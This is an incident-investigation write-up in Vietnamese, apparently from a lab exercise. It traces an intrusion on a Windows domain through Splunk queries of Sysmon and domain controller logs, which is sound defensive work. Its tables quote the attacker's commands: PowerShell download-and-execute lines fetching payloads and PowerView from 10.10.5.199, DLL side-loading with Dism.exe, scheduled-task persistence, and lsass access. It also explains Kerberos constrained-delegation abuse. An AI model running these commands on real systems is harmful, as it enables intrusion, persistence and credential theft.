| 2025-08-04 18:39:19 | `powershell  -Command "Invoke-WebRequest -Uri 'http://10.10.5.199/payload/Holmes' -OutFile '..\Holmes'"` | Tải phần `Holmes` |
| 2025-08-04 18:39:20 | `powershell  -Command "Invoke-WebRequest -Uri 'http://10.10.5.199/payload/Lying' -OutFile '..\Lying'"` | Tải phần `Lying` |
| 2025-08-04 18:39:20 | `powershell  -Command "Invoke-WebRequest -Uri 'http://10.10.5.199/payload/True' -OutFile '..\True'"` | Tải phần `True` |
| 2025-08-04 18:39:21 | `powershell  -Command "Invoke-WebRequest -Uri 'http://10.10.5.199/payload/Responded' -OutFile '..\Responded'"` | Tải phần `Responded` |
| 2025-08-04 18:39:22 | `powershell  -Command "Invoke-WebRequest -Uri 'http://10.10.5.199/payload/Fa' -OutFile '..\Fa'"` | Tải phần `Fa` |
| 2025-08-04 18:39:22 | `powershell  -Command "Invoke-WebRequest -Uri 'http://10.10.5.199/payload/Proc' -OutFile '..\Proc'"` | Tải phần `Proc` |
| 2025-08-04 18:39:23 | `powershell  -Command "Invoke-WebRequest -Uri 'http://10.10.5.199/payload/Ink' -OutFile '..\Ink'"` | Tải phần `Ink` |
| 2025-08-04 18:39:24 | `cmd  /c copy /b ..\Italy + ..\Holmes + ..\True + ..\Lying + ..\Responded + ..\Proc + ..\Fa + ..\Ink suggests.a3x` | Ghép 8 phần theo thứ tự trong lệnh thành 1 payload duy nhất: `suggests.a3x` (file extension cho thấy đây là 1 script autoit đã được biên dịch) |

**Process được tìm kiếm trong bước kiểm tra security software**

| Process | Phần mềm | Nhà phát triển |
|---|---|---|
| `wrsa.exe` | Webroot SecureAnywhere (antivirus) | Webroot |
| `opssvc.exe` | Quick Heal Antivirus (process dịch vụ nền) | Quick Heal |

**MFT PC01:**



MFT trên PC01 ghi nhận tệp `suggests.a3x` được tạo thành công lúc 2025-08-04 18:39:24. Tuy nhiên, chưa thấy tệp này được attacker thực thi sau đó

### 1.6. Process `set-up.exe` (PID = 8500) — Discovery và DLL side-loading

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PC01" earliest="08/04/2025:18:39:15" (process_id=8500 OR parent_process_id=8500 OR SourceProcessId=8500) ({00000000-0000-0000-0000-000000000000} OR {c73af8d8-fe53-6890-2010-000000005200})
| stats count by EventCode
```



Thống kê các sysmon event id có liên quan tới process`set-up.exe`.

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PC01" earliest="08/04/2025:18:39:15" process_id=8500 ({00000000-0000-0000-0000-000000000000} OR {c73af8d8-fe53-6890-2010-000000005200}) EventCode=22
| table _time QueryName QueryResults
```



Vào 2025-08-04 18:40:15, sysmon event id 22 ghi nhận process `set-up.exe` thực hiện DNS query liên quan đến DC01/CORP.lab. Điều này cho thấy hoạt động xác định địa chỉ của Domain Controller nhằm recon hoặc chuẩn bị lateral movement.

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PC01" earliest="08/04/2025:18:39:15" process_id=8500 ({00000000-0000-0000-0000-000000000000} OR {c73af8d8-fe53-6890-2010-000000005200}) EventCode=11
| table _time TargetFilename
```



Sysmon event id 11 ghi nhận tệp `C:\Users\Public\DismCore.dll` được tạo hai lần, lần lượt vào 18:48:35 và 18:52:21. Việc đặt DLL này trong một thư mục writable, sau đó sao chép `Dism.exe` vào cùng thư mục, cho thấy attacker đang chuẩn bị thực hiện DLL side-loading:
- 2025-08-04 18:48:35 C:\Users\Public\DismCore.dll
- 2025-08-04 18:52:21 C:\Users\Public\DismCore.dll

`DismCore.dll` là tên thư viện liên quan đến Deployment Image Servicing and Management (DISM). Attacker tạo một payload DLL đáng ngờ với cùng tên trong thư mục `C:\Users\Public` nhằm giả mạo, tuy nhiên, đường dẫn của dll này nằm ở vị trí khác thông thường (C:\Window\System32\\) là dấu hiệu detection rõ ràng cho thấy attacker đang thực hiện DLL side-loading. 

Tệp `DismCore.dll` được tạo bởi process đáng ngờ có khả năng là DLL độc hại nhằm được nạp bởi process `Dism.exe` hợp lệ.

**Cơ chế DLL side-loading:** Khi ứng dụng nạp DLL theo tên mà không dùng đường dẫn tuyệt đối, windows tìm DLL được yêu cầu theo DLL search order. Trong đa số trường hợp của ứng dụng desktop, thư mục chứa tệp thực thi được ưu tiên tìm trước thư mục làm việc hiện tại ngay cả khi `Safe DLL Search Mode` được bật. Ở đây, attacker đặt `Dism.exe` và `DismCore.dll` trong cùng `C:\Users\Public`, tạo điều kiện cho DLL bị giả mạo được nạp.

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PC01" earliest="08/04/2025:18:39:15" process_id=8500 ({00000000-0000-0000-0000-000000000000} OR {c73af8d8-fe53-6890-2010-000000005200}) EventCode=3
| table _time DestinationIp DestinationPort
| sort _time
```



Ghi nhận process `set-up.exe` thực hiện nhiều kết nối tới `10.10.5.195:9001` (nhiều khả năng là beaconing tới c2 nhằm nhận lệnh) và một kết nối tới `10.10.11.155:135` (RPC Endpoint Mapper), dấu hiệu cho thấy process tiếp cận dịch vụ RPC trên DC01 nhằm gọi hàm từ xa. 

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PC01" earliest="08/04/2025:18:39:15" parent_process_id=8500 ({00000000-0000-0000-0000-000000000000} OR {c73af8d8-fe53-6890-2010-000000005200}) EventCode=1
| table _time process_id CommandLine CurrentDirectory
| sort _time
```



Những process con của `set-up.exe` đều chạy dưới danh tính `william` với Integrity Level = High. Các lệnh được thực thi thực hiện discovery, chuẩn bị payload và truy vấn thông tin AD:

| Thời gian | PID | Lệnh | Mô tả |
|---|---|---|---|
| 2025-08-04 18:44:02 | 10156 | `whoami /all` | Kiểm tra username, SID, group và privilege của user hiện tại (william). |
| 2025-08-04 18:45:13 | 10576 | `cmd.exe /c net user /domain` | Liệt kê user trong domain CORP.lab. |
| 2025-08-04 18:45:13 | 10108 | `cmd.exe /c net group "Domain Admins" /domain` | Liệt kê thành viên thuộc nhóm Domain Admins. |
| 2025-08-04 18:45:13 | 18980 | `cmd.exe /c cmdkey /list` | Liệt kê tên người dùng và thông tin xác thực (không bao gồm password ở dạng rõ) đang được lưu trong Windows Credential Manager. |
| 2025-08-04 18:46:25 | 964 | `cmd.exe /c net view \CORP.labSYSVOL` | Truy vấn tài nguyên được share trong SYSVOL trên CORP.lab. |
| 2025-08-04 18:46:25 | 6400 | `cmd.exe /c ping -n 1 DC01` | Dùng lệnh ping kiểm tra kết nối tới DC. |
| 2025-08-04 18:46:25 | 18436 | `cmd.exe /c arp -a` | Hiển thị bảng ARP (ánh xạ IP sang MAC address). |
| 2025-08-04 18:46:25 | 19412 | `cmd.exe /c tasklist \| find ssh` | Kiểm tra xem có process ssh đang chạy không. |
| 2025-08-04 18:47:28 | 16540 | `cmd.exe /c copy C:\Windows\System32\Dism.exe C:\ProgramData\Dism.exe` | Copy binary hợp lệ Dism.exe vào `C:\ProgramData\`. |
| 2025-08-04 18:52:21 | 17976 | `cmd.exe /c copy C:\Windows\System32\Dism.exe C:\Users\Public\Dism.exe` | Copy binary hợp lệ Dism.exe vào `C:\Users\Public\` (thư mục chứa payload `DismCore.dll` được drop vào cùng thời điểm). |
| 2025-08-04 18:53:45 | 10144 | `C:\Users\Public\Dism.exe` | Thực thi binary hợp lệ Dism.exe từ thư mục không chuẩn nhằm side-load Dll giả mạo. |


```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PC01" earliest="08/04/2025:18:53:45" latest="08/04/2025:18:55:00" process_id=10144 {c73af8d8-01b9-6891-3311-000000005200} EventCode=7
| table _time User Image ImageLoaded SignatureStatus Signed RuleName Hashes
```



Sysmon event id 7 ghi nhận `C:\Users\Public\Dism.exe` nạp thành công `C:\Users\Public\DismCore.dll`. Hash của DismCore.dll:
- SHA1=EDEA767D9500D20018C9DA70791A4BA90B8E2FD9
- MD5=C5876DFBE1BA8272C80D694EC43151F9
- SHA256=83B98B9E32630816DD3066266F9BC5BB76EAE1D61913C8B775F8A74BB82C0433
- IMPHASH=57D6E7112C8E716CFE2EB0FF9F36763C

| Thời gian | PID | Lệnh | Mô tả |
|---|---|---|---|
| 2025-08-04 18:54:51 | 14584 | `cmd.exe /Q /c schtasks.exe /create /sc onlogon /tn DISMCORE /rl highest /tr C:\Users\Public\Dism.exe` | Tạo task với tên DISMCORE (/tn DISMCORE) chạy Dism.exe (nạp Dll độc hại mỗi khi chạy cùng thư mục với Dll này) mỗi khi bất kì user nào đăng nhập vào máy (/sc onlogon). Dism.exe chạy với quyền hạn cao nhất mà phiên logon user sở hữu, ví dụ: đối với user có quyền quản trị, thực thi với elevated token mà không hiển thị UAC consent (Tham khảo: https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks-create) |

Disk artefact trong `C:\Windows\System32\Tasks` xác nhận scheduled task `DISMCORE` đã được tạo thành công:


| Thời gian | PID | Lệnh | Mô tả |
|---|---|---|---|
| 2025-08-04 18:57:00 | 2732 | `powershell -ep bypass -c "iex (iwr 'http://10.10.5.199/MSOfficeSyncService.ps1'); Get-NetUser -TrustedToAuth"` | Attacker tải và thực thi powerShell script `MSOfficeSyncService.ps1`, sau đó gọi `Get-NetUser -TrustedToAuth` để tìm những domain account có cấu hình protocol-transition delegation (cụ thể là cờ TRUSTED_TO_AUTH_FOR_DELEGATION được bật trong thuộc tính userAccountControl). Khả năng cao attacker đang nhắm tới việc lam dụng cơ chế protocol transition trong Kerberos Constrained Delegation nhằm giả mạo người dùng đặc quyền cao truy cập trái phép hệ thống |
| 2025-08-04 18:59:33 | 19384 | `net user` | Liệt kê local user. |
| 2025-08-04 18:59:33 | 6744 | `powershell -ep bypass -c "iex (iwr 'http://10.10.5.199/PowerView.ps1' -UseBasicParsing); Get-NetUser -TrustedToAuth"` | Chuyển sang script `PowerView.ps1`. |
| 2025-08-04 19:00:53 | 3412 | `powershell -ep bypass -c "iex (iwr 'http://10.10.5.199/MSOfficeSyncService.ps1' -UseBasicParsing); Get-NetUser -TrustedToAuth"` | Thêm cờ `-UseBasicParsing` và chạy lại script `MSOfficeSyncService.ps1`. |

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PC01" earliest="08/04/2025:18:39:15" SourceProcessId=8500 ({00000000-0000-0000-0000-000000000000} OR {c73af8d8-fe53-6890-2010-000000005200}) EventCode=10 TargetImage=*lsass.exe
| table _time SourceUser TargetUser SourceProcessId SourceImage TargetProcessId TargetImage GrantedAccess RuleName CallTrace
```



Vào 2025-08-04 19:03:41, sysmon event id 10 ghi nhận `set-up.exe` (PID = 8500) mở handle tới `lsass.exe` với access mask `0x1010`, bao gồm quyền đọc bộ nhớ và truy vấn thông tin process. Đây là dấu hiệu cho thấy attacker thực hiện dump credentials từ bộ nhớ của process lsass.

### 1.7. `Dism.exe` (PID = 10144)

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PC01" earliest="08/04/2025:18:53:45" process_id=10144 EventCode=5
| table _time signature Image ProcessId
```

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PC01" earliest="08/04/2025:18:53:45" (process_id=10144 OR parent_process_id=10144 OR SourceProcessId=10144) {c73af8d8-01b9-6891-3311-000000005200}
| stats count by EventCode
```



Process `Dism.exe` (PID = 10144) kết thúc gần như ngay sau khi khởi chạy. Kết hợp sysmon event id 7 và việc tạo child process, điều này phù hợp với vai trò loader.



Thống kê các sysmon event id liên quan đến process này

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PC01" earliest="08/04/2025:18:53:45" parent_process_id=10144 {c73af8d8-01b9-6891-3311-000000005200} EventCode=1
| table _time host user IntegrityLevel LogonId parent_process_id parent_process_path process_id Image CommandLine
| sort _time
```



Vào 2025-08-04 18:53:45, `C:\Users\Public\Dism.exe` (PID = 10144) khởi chạy `rundll32.exe` (PID = 15468) không kèm command-line argument rồi kết thúc ngay sau đó. 

### 1.8. `rundll32.exe` (PID = 15468) 

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PC01" earliest="08/04/2025:18:53:45" (process_id=15468 OR parent_process_id=15468 OR SourceProcessId=15468) {c73af8d8-01b9-6891-3511-000000005200}
| stats count by EventCode
```



Thống kê các sysmon event id liên quan đến process này

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PC01" earliest="08/04/2025:18:53:45" process_id=15468 {c73af8d8-01b9-6891-3511-000000005200} EventCode=3
| table _time DestinationIp DestinationPort
```



Ngay sau khi được khởi chạy, `rundll32.exe` (PID = 15468) kết nối tới `10.10.5.195:1337` lúc 18:53:46. Sau đó 1 giay, lúc 18:53:47, process này tiếp tục kết nối tới `10.10.5.195:9900`, đồng thời giao tiếp với DC01 qua TCP port 135 (RPC endpoint mapper) và port RPC động 49666 cho thấy dấu hiệu gọi hàm RPC từ xa trên DC01.

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PC01" earliest="08/04/2025:18:53:45" parent_process_id=15468 EventCode=1
| table _time user Image CommandLine
```



Vào 18:55:14, `rundll32.exe` tiếp tục khởi chạy powershell để tải `MSOfficeSyncService.ps1` và chạy lệnh `Get-NetUser -TrustedToAuth`, lặp lại hoạt động AD recon đã thấy trước đó.

```spl
index=main host="DC01" earliest="08/04/2025:18:00:00" latest="08/04/2025:19:41:00"
| stats count by EventCode source
```



Trong log được cung cấp, không tìm được event tương ứng với DC01 trong khoảng thời gian dài từ 18:00 đến 19:41. Điều này giới hạn khả năng xác định kết quả của các kết nối RPC từ PC01.

## Host 2: DC01 (10.10.11.155)

### 2.0. Lateral Movement và Kerberos Delegation

Trước đó, trên PC01 vào 2025-08-04 19:03:41, do từng ghi nhận process set-up.exe (pid = 8500) thực hiện truy cập memory của lsass.exe, tiếp tục lọc các event id 4624 trên DC01 sau thời điểm này để kiểm tra các sự kiện đăng nhập bất thường: 

```spl
index=main host="DC01" earliest="08/04/2025:19:00:00" latest="08/04/2025:20:00:00" EventCode=4624 IpAddress IN (*10.10.5.199, *10.10.11.215)
| table _time IpAddress IpPort LogonType TargetUserName TargetUserSid TargetLogonId TargetLinkedLogonId LogonProcessName ImpersonationLevel TransmittedServices
| sort _time EventRecordID
```



Trên DC01, ghi nhận nhiều event id 4624 Logon Type 3 cách nhau một khoảng thời gian ngắn từ ip của attacker (`10.10.5.199`) dưới danh tính user `Administrator`. Việc điều tra các process tạo ra trong khoảng thời gian này ở dưới đã xác nhận đây là các phiên xác thực và đăng nhập thành công từ attacker để thực thi lệnh từ xa thông qua WMIC sử dụng danh tính user `Administrator`. Hơn nữa, một số phiên đăng nhập này có trường `TransmittedServices` có giá trị là `webservice@CORP.LAB`, điều này cho biết rằng attacker đã compromise thành công tài khoản service `webservice`, lạm dụng cơ chế Kerberos Constrained Delegation để mạo danh user Administrator truy cập tài nguyên khác trong hệ thống. Điều tra thêm các event id 4768 và 4769 gần khoảng thời điểm này để xác nhận:


```spl
index=main host="DC01" earliest="08/04/2025:19:00:00" EventCode=4769 IpAddress=::ffff:10.10.5.199
| table _time EventRecordID TargetUserName TargetDomainName ServiceName ServiceSid IpAddress IpPort TicketEncryptionType TicketOptions Status TransmittedServices LogonGuid
| sort _time EventRecordID
```



```spl
index=main host="DC01" earliest="08/04/2025:19:00:00" EventCode=4768 IpAddress=::ffff:10.10.5.199
| table _time EventRecordID TargetUserName TargetDomainName TargetSid ServiceName ServiceSid IpAddress IpPort TicketEncryptionType TicketOptions Status PreAuthType CertIssuerName CertSerialNumber CertThumbprint
| sort _time EventRecordID
```



Vào 2025-08-04 19:41:46, ngay trước thời điểm ghi nhận đăng nhập thành công và các hoạt dộng process đáng ngờ xuất hiện, event id 4768 trên DC01 ghi nhận 1 TGT request cho tài khoản `webservice` từ `10.10.5.199` thành công, ở đây loại mã hóa được sử dụng để encrypt TGT là 0x17 (TicketEncryptionType=0x17) tức RC4-HMAC – là loại mã hóa yếu trong khi các event 4768 còn lại đều ghi nhận TicketEncryptionType = 0x12 (AES). 

Cùng thời điểm, event id 4769 ghi nhận một Service Ticket được KDC cấp cho service `webservice` (ServiceName=webservice) với bên request TGS được ghi nhận là từ 10.10.5.199 dưới chính danh tính webservive và 1 Service Ticket cấp cho `DC01$` với `TransmittedServices=webservice@CORP.LAB` và TargetUserName=webservice@CORP.LAB cho thấy webservice mạo danh 1 user xin Service Ticket truy cập dịch vụ trên DC01. Khi đặt cạnh Logon Type 3 dưới `Administrator` và WMI execution, chuỗi sự kiện phù hợp với giả thuyết rằng attacker đang lạm dụng cơ chế S4Uself và S4UProxy trong Kerberos Constrained Delegation. 

Cụ thể:
  - Event id 4769 (EventRecordID = 419571) tương ứng với S4USelf: tài khoản webservice mà attacker điều khiểu sử dụng chính TGT của bản thân nó (xin được từ event id 4768 tương ứng mà ta đã thấy) + cấu trúc PA-FOR-USER chứa username Administrator để yêu cầu KDC cấp cho 1 Service Ticket với service đích chính nó nhưng Service Ticket mạng danh tính Administrator thay vì webserice -> tức là dùng S4Uself đánh lừa KDC rằng user Administrator vừa xác thực tới bản thân webservice.
  - Event id 4769 (EventRecordID = 419571) tương ứng với S4U2Proxy: webservice gửi TGT của webservice cùng với ST dưới danh tính Administrator vừa có được tới KDC trong 1 TGS-REQ thứ 2 yêu cầu KDC cấp ST để truy cập 1 tài nguyên khác dưới danh tính và quyền hạn truy cập của Administrator (như ta đã thấy thông tin log trong event này, service đích khác là DC01$ và TransmittedServices là webservice@CORP.LAB). 

Giả thuyết: việc Kerberos sử dụng thuật toán mã hóa RC4-HMAC (`0x17`) có thể liên quan đến khả năng attacker đã chiếm được NT hash của tài khoản `webservice`. Trước đó, attacker đã thực thi lệnh `Get-NetUser -TrustedToAuth` nhằm tìm kiếm các tài khoản trong có cờ `TRUSTED_TO_AUTH_FOR_DELEGATION` được bật trong thuộc tính `userAccountControl` và hắn đã phát hiện ra tài khoản service `webservice` được cấu hình Kerberos Constrained Delegation with Protocol Transition và lựa chọn tài khoản này làm mục tiêu để khai thác. Sau đó, lúc 2025-08-04 19:03:41, sysmon event id 10 ghi nhận `set-up.exe` truy cập bộ nhớ `lsass.exe`. Có khả năng attacker đã thu thập được NT hash của `webservice` từ lsass trên PC01. Khoảng 38 phút sau, vào 19:41:46, attacker gửi request TGT với pre-auth material tức timestamp được encrypt với RC4 key tạo từ NT hash cho nên KDC với trả về 1 TGT cũng encrypt sử dụng thuật toán RC4. Sau đấy là các hoạt động lạm dụng cơ chế Protocol Transition trong Kerberos Constrained Delegation.

#### Cơ chế S4U2Self và S4U2Proxy

Trong Kerberos Constrained Delegation với tính năng Protocol Transition (được sử dụng bởi service trung gian khi user xác thực sử dụng giao thức khác Kerberos, service cần chuyến sang Kerberos để mạo danh người dùng), một service account được cấu hình phù hợp có thể dùng **S4U2Self** yêu cầu service ticket mang danh tính một user cho chính service của nó, sau đó dùng **S4U2Proxy** xin ticket tới các SPN đích được phép trong `msDS-AllowedToDelegateTo` để truy cập thay user. Service Account có quyền delegation được xác định qua các thuộc tính: `userAccountControl` (có cờ `TRUSTED_TO_AUTH_FOR_DELEGATION` được bật) và `msDS-AllowedToDelegateTo` (chứa danh sách các service được phép delegate). 

